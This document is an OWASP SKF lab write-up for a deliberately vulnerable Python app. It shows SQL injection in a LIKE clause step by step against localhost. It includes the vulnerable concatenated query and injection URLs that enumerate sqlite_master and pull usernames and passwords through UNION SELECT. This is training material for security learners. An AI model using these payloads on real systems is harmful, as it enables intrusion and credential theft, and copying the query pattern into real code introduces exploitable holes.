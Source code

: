 # Python - SQLI (Like)

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:sqli-like
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:sqli-like
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practise "i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to Contrahack.io !](<../../.gitbook/assets/ing\_primary\_logo (2).png>)

## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by page name and displays the content.

![](../../.gitbook/assets/sqli-like-1.png)

```
http://localhost:5000/home/Admin
```

### Step2

Now let's see if we can create an error by injecting a single quote

![](../../.gitbook/assets/sqli-like-2.png)

```
http://localhost:5000/home/Admin'
```

By doing so the SQL query syntax is now faulty. This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```python
db.execute("SELECT UserName, email FROM users WHERE UserName LIKE '%"+username+"%' ORDER BY UserId")
```

### Step3

Now we need to inject characters to make the SQL query syntactically correct.

![](../../.gitbook/assets/sqli-like-3.png)

```
http://localhost:5000/home/Admin%'--
```

After that we inject a logical operator which is true (and 1=1). This should result in the application run as intended without errors.

![](../../.gitbook/assets/sqli-like-4.png)

```
http://127.0.0.1:5000/home/Admin%' AND 1=1--
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

The UNION operator is used in SQL injections to join a query, purposely forged to the original query. This allows to obtain the values of columns of other tables. First we need to determine the number of columns used by the original query. We can do this by trial and error.

![](../../.gitbook/assets/sqli-like-5.png)

```
http://localhost:5000/home/Admin%' union select 1--
```

This query results in an error, this is due to the fact that the original query started with 2 columns namely\
\* UserName \* email

![](../../.gitbook/assets/sqli-like-6.png)

```
http://localhost:5000/home/Admin%' union select 1,2--
```

Notice how "UserName" and "email" became placeholders for data we want to retrieve from the database

### Step 2

Now that we determined the number of columns we need to take, the next step is querying system tables to check which tables are stored in the Database. From the error message in the first picture, we can determine a SQLite DB is being used. As the application didn't return an error, our guess is correct.

![](../../.gitbook/assets/sqli-like-7.png)

```
http://localhost:5000/home/Admin%' union select 1,2 from sqlite_master--
```

#### Step 3

Now we need to discover the table and columns name of the table we want to extract. As the application only displays the first result, we need to play with SQL Limit.

![](../../.gitbook/assets/sqli-like-8.png)

```
http://localhost:5000/home/Admin%' union select tbl_name,sql from sqlite_master limit 1,1--
```

#### Step 4

Now we have all the information required to extract data from _users_ table. Play with SQL Limit to get credentials from more users.

![](../../.gitbook/assets/sqli-like-9.png)

```
http://localhost:5000/home/Admin%' union select UserName,Password from users limit 0,1--
```

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

[https://www.owasp.org/index.php/Testing\_for\_SQL\_Injection\_(OTG-INPVAL-005)](https://www.owasp.org/index.php/Testing\_for\_SQL\_Injection\_\(OTG-INPVAL-005\))

SQLite Reference

[https://www.techonthenet.com/sqlite/sys\_tables/index.php](https://www.techonthenet.com/sqlite/sys\_tables/index.php)
